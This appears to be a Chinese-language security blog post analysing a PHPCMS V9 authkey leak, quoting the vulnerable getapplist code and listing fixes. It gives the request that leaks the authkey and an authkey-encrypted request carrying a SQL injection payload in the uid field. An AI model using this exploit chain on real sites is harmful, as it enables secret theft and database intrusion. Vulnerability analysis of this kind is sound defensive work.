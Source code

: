 title: "PHPCMS Authkey 泄露漏洞分析"
date: 2016-03-10 09:30:00
tags: [安全,原理,总结]
----

<!-- more -->
# PHPCMS V9 Authkey泄露漏洞

在PHPCMS V9的版本中（现已修复）

`phpcms/phpsso\_server/phpcms/modules/phpsso/index.php`

中有一段代码如下：
``` 
/**
* 获取应用列表
*/
    public function getapplist() {
        $applist = getcache('applist', 'admin');
        exit(serialize($applist));
        }
```
    
此处可以获取cache_admin的信息，内容如下：

![PHPCMS AUTHKEY.png](https://i.loli.net/2018/06/27/5b33658cc7db1.png)

可以获得authkey和调用它的文件`api.php` 

获得cache的URL是通过上传用户头像处可以解出来：

`http://localhost:8038/study/phpcms/phpsso_server/index.php?m=phpsso&c=index&a=uploadavatar&auth_data=v=1&appid=1&data=e5c2VAMGUQZRAQkIUQQKVwFUAgICVgAIAldVBQFDDQVcV0MUQGkAQxVZZlMEGA9%2BDjZoK1AHRmUwBGcOXW5UDgQhJDxaeQVnGAdxVRcKQA`


将其中的uploadavatar替换成getapplist即可获取cache信息。

拿到authkey之后，就可以利用他编码请求从而达到执行特定操作的目的。

通过cache_admin可以看出来在api.php?op=phpsso处调用了authkey。我们直接定位到该处。使用authkey加密payload。

`http://localhost/api.php?op=phpsso&code=6f56BQgIUVQDVAkGUwEFCgwDAwNSAVBdA1UHD1RSURFZDlgIS0EPCFwDUFhFFl1dCBMWVlkHE0xDUFJDBktfCRhQGlZXVgIFR0weSERPQUpQRh4eHk8CEBA`

加密的语句是：`action=synlogin&uid=' and updatexml(1,concat('~',user()),1)#`

执行完后的结果：

![结果](https://i.loli.net/2018/06/27/5b3365aa949dc.png)

# 修复


1. 升级PHPCMS版本

2. 删除cache文件

3. 修改默认的authkey

